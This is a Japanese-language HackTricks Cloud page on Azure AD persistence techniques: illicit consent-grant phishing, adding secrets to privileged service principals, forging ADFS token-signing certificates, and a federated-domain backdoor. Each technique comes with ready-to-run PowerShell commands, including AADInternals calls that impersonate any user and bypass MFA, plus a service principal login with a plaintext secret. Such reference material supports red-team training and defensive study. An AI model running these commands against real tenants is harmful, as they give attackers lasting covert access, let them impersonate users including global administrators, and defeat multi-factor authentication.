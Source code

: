# Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

デフォルトでは、任意のユーザーがAzure ADにアプリケーションを登録できます。したがって、高い影響力のある権限が必要なアプリケーション（ターゲットテナント専用）を管理者の同意で登録できます（管理者であれば承認できます） - ユーザーの代理でメールを送信したり、役割管理を行ったりすることなどです。これにより、成功した場合に非常に**有益**な**フィッシング攻撃**を**実行**することができます。

さらに、アクセスを維持する方法として、ユーザーとしてそのアプリケーションを受け入れることもできます。

### Applications and Service Principals

Application Administrator、GA、またはmicrosoft.directory/applications/credentials/update権限を持つカスタムロールの特権を持つ場合、既存のアプリケーションに資格情報（シークレットまたは証明書）を追加できます。

**高い権限を持つアプリケーションをターゲットにする**ことも、**高い権限を持つ新しいアプリケーションを追加する**ことも可能です。

アプリケーションに追加するのに興味深い役割は、**特権認証管理者ロール**であり、これによりグローバル管理者の**パスワードをリセット**することができます。

この技術はまた、**MFAをバイパス**することを可能にします。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 証明書ベースの認証の場合

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - トークン署名証明書

**DA権限**を持つオンプレミスADでは、非常に長い有効期限を持つ**新しいトークン署名**および**トークン復号証明書**を作成およびインポートすることが可能です。これにより、私たちは**ImmutableID**を知っている任意のユーザーとして**ログイン**することができます。

**以下のコマンドを** **ADFSサーバーでDAとして**実行して、新しい証明書を作成し（デフォルトのパスワードは'AADInternals'）、それらをADFSに追加し、自動ロールオーバーを無効にし、サービスを再起動します：
```powershell
New-AADIntADFSSelfSignedCertificates
```
次に、Azure ADで証明書情報を更新します:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

テナントにGA権限がある場合、**新しいドメインを追加**することが可能です（確認が必要です）、その認証タイプをFederatedに設定し、ドメインを**特定の証明書**（以下のコマンドのany.sts）および発行者を**信頼する**ように設定します：
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考文献

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
